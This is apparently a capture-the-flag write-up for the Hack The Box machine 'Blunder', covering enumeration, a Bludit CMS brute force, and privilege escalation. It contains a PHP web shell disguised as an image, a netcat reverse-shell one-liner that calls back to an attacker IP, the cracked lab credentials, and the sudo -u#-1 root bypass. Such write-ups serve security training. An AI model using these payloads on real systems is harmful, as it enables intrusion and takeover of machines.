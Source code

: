 ```yaml
---
title: "[HTB] Machine: Blunder"
description: "[HTB] Machine: Blunder"
date: 2023-07-01
menu:
  sidebar:
    name: "[HTB] Machine: Blunder"
    identifier: htb-machine-blunder
    parent: htb-machines-linux
    weight: 10
hero: images/blunder.png
tags: ["HTB"]
---
```


# Blunder
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 12:05 BST
Nmap scan report for 10.10.10.191 (10.10.10.191)
Host is up (0.10s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.64 seconds
```
- Web server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php,html
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.191
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2023/07/01 14:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/about                (Status: 200) [Size: 3281]
/.php                 (Status: 403) [Size: 277]
/0                    (Status: 200) [Size: 7562]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.191/admin/]
/install.php          (Status: 200) [Size: 30]
/robots.txt           (Status: 200) [Size: 22]
/todo.txt             (Status: 200) [Size: 118]
/usb                  (Status: 200) [Size: 3960]
/LICENSE              (Status: 200) [Size: 1083]
```

- Interesting paths

![](./images/2.png)
![](./images/3.png)

## Foothold
- `Searchsploit`

![](./images/4.png)

- We know from the note that there is a user named `fergus`
  - Need to find version of the cms
  - We can assume it's version is `3.9.2`

![](./images/5.png)
![](./images/7.png)

- Let's check an exploit for credential bruteforcing

![](./images/6.png)

- So I ran `poc` with `rockyou` wordlist, but no success
  - Then I used `cewl` to create a wordlist from the webserver
  - `cewl http://10.10.10.191 > passwd.list`

![](./images/8.png)

- Then I started the exploit
  - `fergus:RolandDeschain`

![](./images/9.png)
![](./images/10.png)

- It seems that `Bludit` also has directory traversal vulnerability

![](./images/11.png)

- Let's run that exploit
  - Prepare payloads
    - `echo '<?php system($_REQUEST["cmd"]); ?>' > evil.png`
    - `echo "RewriteEngine off" > .htaccess`
    - `echo "AddType application/x-httpd-php .png" >> .htaccess`

![](./images/12.png)
![](./images/13.png)
![](./images/14.png)

- Rev shell: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 6666 >/tmp/f`
  - URL encoded:`rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.16.7%206666%20%3E%2Ftmp%2Ff`

![](./images/15.png)
![](./images/16.png)
## User
- Enumeration
  - We can start with `linpeas`
  - Or
    - Start with `/var/www`
    - Let's search for files with `password` 
  - We found 2 `users.php` files for `3.10.0a` and `3.9.2` versions
    - We see a password for `Hugo`, which is a user on the box

![](./images/17.png)
![](./images/18.png)
![](./images/19.png)

- Crack the hash and try `su`
  - `hugo:Password120`

![](./images/20.png)
![](./images/21.png)

## Root
- Start with `sudo -l`

![](./images/22.png)

- We can run `sudo` as any user except `root`
  - Let's check the version just in case

![](./images/23.png)

- We have a [bypass](https://www.exploit-db.com/exploits/47502) for this specific case
  - `sudo -u#-1 /bin/bash`

![](./images/24.png)
![](./images/25.png)
